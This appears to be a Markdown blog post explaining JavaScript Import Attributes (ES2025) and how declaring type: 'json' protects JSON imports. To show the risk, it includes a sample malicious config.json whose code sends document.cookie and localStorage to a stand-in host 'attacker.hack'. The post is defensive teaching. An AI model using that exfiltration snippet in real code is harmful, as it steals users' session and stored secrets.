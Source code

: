 ```yaml
---
title: "What's new in JavaScript ES2025: Import Attributes"
description: A new way to make module imports more secure.
date: 2024-11-22T21:33:25.684Z
update: 2025-01-22T21:13:59.142Z
hero: ./js-es2025.svg
heroAlt: JavaScript ES2025
og: ./js-es2025.png
tags:
  - Programación
  - JavaScript
  - ES2025
  - JSON
sources:
  - title: JavaScript Import Attributes (ES2025) - Trevor I. Lasn
    href: https://www.trevorlasn.com/blog/import-attributes-in-javascript
  - title: Import Attributes - TC39
    href: https://tc39.es/proposal-import-attributes/
  - title: Import Attributes - TC39 (GitHub)
    href: https://github.com/tc39/proposal-import-attributes
themeColor: "#f0db4f"
---
```


<BaselineStatus id="json-modules" />

JavaScript now includes **Import Attributes**, a feature that lets you explicitly declare what kind of module you're importing. This addition brings enhanced security and clarity to module imports, particularly for JSON and other non-JavaScript modules.

## ❌ The Problem with File Extensions

When importing modules on the web, we can't reliably use file extensions to determine module types. A server might send JavaScript code even when requesting a file with a `.json` extension, potentially creating security risks:

```js title="main.js"
import config from './config.json';
```

What you expect to get:

```json title="config.json"
{
  "accessToken": "secret-key",
  "refreshToken": "secret-key",
  "expiresAt": "2125-01-21T21:35:34.607Z"
}
```

What a compromised server could send instead:

```js title="config.json"
export default (function () {
  // Send your API keys to an attacker
  fetch('https://attacker.hack', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      localStorage: window.localStorage
    })
  });

  // Then return what looks like normal config
  return {
    accessToken: 'secret-key',
    refreshToken: 'secret-key',
    expiresAt: "2125-01-21T21:35:34.607Z"
  }
})();
```

## 💡 The Solution: Import Attributes

Import Attributes let you explicitly declare what type of module you expect, creating a contract that JavaScript environments must enforce:

```diff title="main.js"
- // WITHOUT Import Attributes - potentially unsafe
- import config from './config.json';
+ // WITH Import Attributes - safe JSON import
+ import config from './config.json' with { type: 'json' };
```

## 💭 Where you can use Import Attributes?

The syntax works consistently across different import scenarios:

```js
// Regular imports
import config from './config.json' with { type: 'json' };

// Dynamic imports work too
const config = await import('./config.json', { 
  with: { type: 'json' } 
});

// Re-exports
export { apiKey } from './config.json' with { type: 'json' };

// Specify JavaScript module
import module from './module.js' with { type: 'javascript' };

// Web Workers
new Worker('worker.wasm', {
  type: 'module',
  with: { type: "webassembly" }
});
```

## 📌 Key Benefits

- **Security**: When importing JSON modules, the `type: "json"` attribute guarantees you'll receive either JSON data or an error - never executable code.

- **Consistency**: Provides a standard way to handle different module types across all JavaScript environments.

- **Extensibility**: While JSON modules are the first use case, the syntax is designed to support future module types and additional metadata attributes.

- **Cache Control**: Hosts can use attributes as part of their module caching strategy, with the behavior defined by each environment.

## Practical Applications

- **JSON Modules**: The core use case of import attributes is to reliably load JSON modules. By specifying `type: "json"` you guarantee that the server delivers data as JSON, not potentially malicious code.
- **Dynamic Imports**:  Import attributes allow using dynamic imports (`await import()`) and control over module type, making them more flexible for various use cases.

## The Future of Import Attributes

Import attributes are a crucial step towards a safer and more predictable JavaScript ecosystem. They're expected to become part of ES2025 and will likely be essential for web development in the coming years.

